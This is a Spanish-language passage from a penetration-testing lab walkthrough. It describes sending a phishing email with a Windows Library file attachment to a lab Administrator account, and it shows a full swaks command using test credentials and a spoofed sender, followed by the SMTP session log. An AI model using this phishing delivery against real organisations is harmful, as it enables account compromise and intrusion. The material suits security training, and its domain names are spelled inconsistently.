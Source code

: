 Dentro del archivo infor.pdf encontramos información acerca de los mails de usuario que tienen la forma \<firstname>.\<lastname>\@supermagicorg.com y nos proporciona un usuario de prueba: test\@supermagicorp.com De esta forma, podemos utilizar swak para enviar un email que contenga una Windows Library file sobre el ususario Administrator:

```
┌──(kali㉿kali)-[~]
└─$ sudo swaks -t administrator@supermagicorg.com --from john@beyond.com --attach @config.Library-ms --server 192.168.226.199 --header "Subject: Staging Script" --suppress-data -ap
Username: test@supermagicorg.com
Password: test
=== Trying 192.168.226.199:25...
=== Connected to 192.168.226.199.
<-  220 ADMIN ESMTP
 -> EHLO kali
<-  250-ADMIN
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
<-  334 UGFzc3dvcmQ6
 -> dGVzdA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<administrator@supermagicorp.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sen
<-  250 Queued (1.031 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

